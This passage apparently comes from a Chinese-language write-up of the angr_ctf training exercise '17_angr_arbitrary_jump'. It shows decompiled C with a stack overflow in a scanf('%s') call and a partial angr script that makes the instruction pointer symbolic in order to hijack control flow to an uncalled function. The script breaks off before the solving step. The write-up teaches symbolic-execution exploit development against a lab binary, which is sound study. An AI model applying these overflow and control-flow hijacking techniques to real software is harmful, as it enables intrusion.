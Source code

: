 ```c
int read_input()
{
  char v1; // [esp+1Ah] [ebp-1Eh]

  return __isoc99_scanf("%s", &v1);
}
```

然后我们还可以发现存在一个没有被调用到的函数`print_good`

```c
void __noreturn print_good()
{
  puts("Good Job.");
  exit(0);
}
```

我们不难发现这题里面的read_input()函数里的scanf存在栈溢出漏洞，简单来说这题就是非常简单的ROP使得我们跳转到print_good函数

话不多说先上EXP：

```python
import angr
import claripy
import sys

def Go():
    path_to_binary = "./17_angr_arbitrary_jump" 
    project = angr.Project(path_to_binary)
    initial_state = project.factory.entry_state() 
     
    class ReplacementScanf(angr.SimProcedure):
        def run(self, format_string, input_buffer_address):
            input_buffer = claripy.BVS(
                'input_buffer', 64 * 8)  
            for char in input_buffer.chop(bits=8):
                self.state.add_constraints(char >= '0', char <= 'z')

            self.state.memory.store(
                input_buffer_address, input_buffer, endness=project.arch.memory_endness)
            self.state.globals['solution'] = input_buffer

    scanf_symbol = '__isoc99_scanf'
    project.hook_symbol(scanf_symbol, ReplacementScanf())

    simulation = project.factory.simgr(
        initial_state, 
        save_unconstrained=True,
        stashes={
        'active' : [initial_state],
        'unconstrained' : [],
        'found' : [],
        'not_needed' : []
        }
    )

    def check_vulnerable(state):
        return state.solver.symbolic(state.regs.eip)

    def has_found_solution():
        return simulation.found

    def has_unconstrained_to_check():
        return simulation.unconstrained

```